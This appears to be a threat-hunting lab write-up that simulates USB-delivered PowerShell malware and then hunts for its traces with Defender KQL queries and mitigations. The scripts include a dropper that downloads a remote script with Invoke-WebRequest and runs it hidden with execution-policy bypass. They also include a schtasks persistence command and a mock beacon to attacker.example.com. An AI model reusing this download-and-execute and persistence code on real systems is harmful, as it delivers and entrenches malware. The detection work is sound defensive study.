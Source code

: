 # Threat Event (USB Malware Execution via PowerShell)

**USB Device Triggers Malicious PowerShell Invoke-WebRequest Payload**

---

## Pre-steps:

I. **Created PowerShell simulation scripts to mimic malware behavior:**

* [`usb-mount.ps1`](https://github.com/jason-p-nguyen/threat-hunting-projects/blob/main/usb_malware_execution/scripts/usb-mount.ps1) – Simulates USB device insertion by mounting `E:\Payload`.
* [`malicious-usb-launcher.ps1`](https://github.com/jason-p-nguyen/threat-hunting-projects/blob/main/usb_malware_execution/scripts/malicious-usb-launcher.ps1) – PowerShell-based dropper that retrieves and executes a payload.
* [`fake-malware.ps1`](https://github.com/jason-p-nguyen/threat-hunting-projects/blob/main/usb_malware_execution/scripts/fake-malware.ps1) – Simulated second-stage malware payload.
* [`usb-unmount.ps1`](https://github.com/jason-p-nguyen/threat-hunting-projects/blob/main/usb_malware_execution/scripts/usb-unmount.ps1) – Simulates USB removal by unmounting the payload drive.
* [`master-usb-malware-sim.ps1`](https://github.com/jason-p-nguyen/threat-hunting-projects/blob/main/usb_malware_execution/scripts/master-usb-malware-sim.ps1) – Master script that automates the full simulation (mount → drop → execute → cleanup → unmount).

II. **Prepared the simulation environment:**

* Used `usb-mount.ps1` to mount a virtual USB payload directory (`E:\Payload`).
* Dropped `malicious-usb-launcher.ps1` into the mounted USB folder.
* Verified all scripts were staged for execution.

---

## Steps the "Bad Actor" Took to Create Logs and IoCs:

1. **Executed the attack simulation using `master-usb-malware-sim.ps1`:**

   * Orchestrated USB mount, launcher execution, cleanup, and unmount operations.

2. **The malicious launcher (`malicious-usb-launcher.ps1`) performed the following actions:**

```powershell
<#
.SYNOPSIS
    Simulates USB-delivered malware using PowerShell.
.DESCRIPTION
    Downloads a fake payload from an external source, waits to mimic stealth, then executes it.
#>

Write-Output "[*] USB device connected. Initializing..."
Start-Sleep -Seconds 5

Write-Output "[*] Downloading external payload to disk..."
Start-Sleep -Seconds 3
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/jason-p-nguyen/malware-sim/main/fake-malware.ps1" -OutFile "C:\Temp\payload.ps1"
Write-Output "[+] Payload saved to C:\Temp\payload.ps1"

Write-Output "[*] Waiting to avoid immediate detection..."
Start-Sleep -Seconds 10

Write-Output "[*] Executing payload using PowerShell..."
Start-Sleep -Seconds 2
Start-Process powershell.exe -ArgumentList "-ExecutionPolicy Bypass -WindowStyle Hidden -File C:\Temp\payload.ps1"

Write-Output "[+] Payload launched. Continuing background operations..."
Start-Sleep -Seconds 5

Write-Output "[*] Cleaning up launcher evidence (simulated)..."
Start-Sleep -Seconds 2
# (Optional) Remove-Item -Path $MyInvocation.MyCommand.Path -Force

Write-Output "[✓] Simulation complete. USB payload execution mimicked."
```

3. **Payload (`fake-malware.ps1`) executed silently**, simulating second-stage activity such as command-and-control or system reconnaissance.
```powershell
<#
.SYNOPSIS
    Simulated malware payload for threat hunting lab: USB Malware Execution (https://github.com/jason-p-nguyen/threat-hunting-projects/tree/main/usb_malware_execution).
.DESCRIPTION
    This script mimics common attacker behaviors like beaconing, data exfiltration, persistence, and recon.
    It does NOT perform real malicious actions.
#>

Write-Output "`n[*] Connecting to Command & Control server..."
Start-Sleep -Seconds 2
Write-Output "[+] Beacon sent to https://attacker.example.com/api/beacon?id=HOST123"

Write-Output "`n[*] Collecting system info..."
$sysInfo = Get-ComputerInfo | Select-Object CsName, WindowsProductName, OsArchitecture, OsBuildNumber
$sysInfo | Format-Table | Out-String | Write-Output
Start-Sleep -Seconds 2

Write-Output "`n[*] Simulating credential scraping..."
$fakeCreds = @{
    "user1@company.com" = "hunter2!"
    "admin@company.com" = "P@ssw0rd123"
}
$fakeCreds.GetEnumerator() | ForEach-Object {
    Write-Output "  - $_"
}
Start-Sleep -Seconds 2

Write-Output "`n[*] Simulating data exfiltration to cloud bucket..."
Start-Sleep -Seconds 2
Write-Output "[+] Uploaded C:\Users\Public\Confidential\Employee_Record_Dump.csv to S3 bucket"

Write-Output "`n[*] Establishing persistence using Task Scheduler..."
$taskName = "SystemUpdater"
$payloadPath = "C:\Temp\payload.ps1"
schtasks /create /tn $taskName /tr "powershell.exe -ExecutionPolicy Bypass -File `"$payloadPath`"" /sc minute /mo 30 /f
Write-Output "[+] Task '$taskName' created to re-run payload every 30 minutes."

Write-Output "`n[!] Simulation complete. This was a fake payload for training purposes only."
```

4. **Cleanup actions executed automatically**:

   * Deleted local artifacts (simulated).
   * Unmounted USB using `usb-unmount.ps1`.

---

## Tables Used to Detect IoCs:

| **Parameter**        | **Description**                                                                                                                                                          |
| -------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| **DeviceFileEvents**  | [Docs](https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicefileevents-table) — Detect creation/deletion of `.ps1` files from USB or temporary folders.  |
| **DeviceProcessEvents** | [Docs](https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceprocessevents-table) — Detect suspicious PowerShell execution, including bypass flags or file launches. |
| **DeviceNetworkEvents** | [Docs](https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table) — Detect outbound connections using PowerShell (e.g., to GitHub or remote command sources). |


---

## Related Queries:

```kql
// Detect PowerShell script execution
DeviceProcessEvents
| where DeviceName == "fin-w10-wks-8"
| where AccountName == "jnguyen.admin"
| order by Timestamp desc
| project Timestamp, DeviceName, Account = AccountName, FileName, FolderPath, ProcessCommandLine

// Detect file creation or deletion in TEMP or USB paths
DeviceFileEvents
| where DeviceName == "fin-w10-wks-8"
| where InitiatingProcessAccountName == "jnguyen.admin"
| order by Timestamp desc
| project Timestamp, DeviceName, ActionType, FileName, FolderPath, Account = InitiatingProcessAccountName, InitiatingProcessCommandLine

// Detect outbound web requests from PowerShell
DeviceNetworkEvents
| where DeviceName == "fin-w10-wks-8"
| where InitiatingProcessAccountName == "jnguyen.admin"
| order by Timestamp desc
| project Timestamp, DeviceName, Account = InitiatingProcessAccountName, RemoteIP, RemotePort, RemoteUrl, InitiatingProcessCommandLine
```

---

## Created By:

* **Author Name**: Jason Nguyen
* **Author Contact**: [https://github.com/jason-p-nguyen](https://github.com/jason-p-nguyen)
* **Date**: July 3, 2025

---

## Additional Notes:

* USB-based attacks remain a common method for **initial access**, especially in **physical breach** or **red team** scenarios.
* PowerShell is often used due to its native capabilities, making it harder to detect if script logging is not enforced.
* Suggested mitigations:

  * Disable `Invoke-WebRequest`, `IEX`, and unsanctioned PowerShell use.
  * Use device control tools to restrict USB usage.
  * Apply `AllSigned` execution policies.
  * Monitor for anomalous script behavior and USB mount events.

---

## Revision History:

| **Version** | **Changes**                          | **Date**     | **Modified By** |
| ----------- | ------------------------------------ | ------------ | --------------- |
| 1.0         | Initial draft                        | July 3, 2025 | Jason Nguyen    |
| 1.1         | Refactored flow, added master script | July 3, 2025 | Jason Nguyen    |


